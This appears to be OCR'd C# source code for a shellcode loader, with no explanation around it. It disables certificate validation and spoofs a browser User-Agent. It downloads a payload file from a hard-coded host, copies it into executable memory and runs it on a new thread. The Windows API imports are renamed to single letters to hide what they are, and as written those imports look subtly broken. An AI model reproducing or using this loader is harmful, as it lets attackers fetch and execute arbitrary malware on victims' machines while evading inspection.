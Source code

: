 using System;
using System.Net;
using System.Reflection;
using System.Runtime.InteropServices;

class Program
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr a(IntPtr b, uint c, uint d, uint e);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr f(IntPtr g, uint h, IntPtr i, IntPtr j, uint k, IntPtr l);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern uint m(IntPtr n, uint o);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern bool p(IntPtr q, uint r, uint s);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr t(string u);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr v(IntPtr w, string x);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern uint y();

    static void Main()
    {
        string z = "https://192.168.0.102/4.bin";

        ServicePointManager.ServerCertificateValidationCallback += (A, B, C, D) => true;

        using (WebClient E = new WebClient())
        {
            E.Headers.Add("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3");
            byte[] F = E.DownloadData(z);

            IntPtr G = a(IntPtr.Zero, (uint)F.Length, 0x1000, 0x40);

            Marshal.Copy(F, 0, G, F.Length);

            IntPtr H = f(IntPtr.Zero, 0, G, IntPtr.Zero, 0, IntPtr.Zero);

            m(H, 0xFFFFFFFF);

            p(G, 0, 0x8000);
        }
    }
}
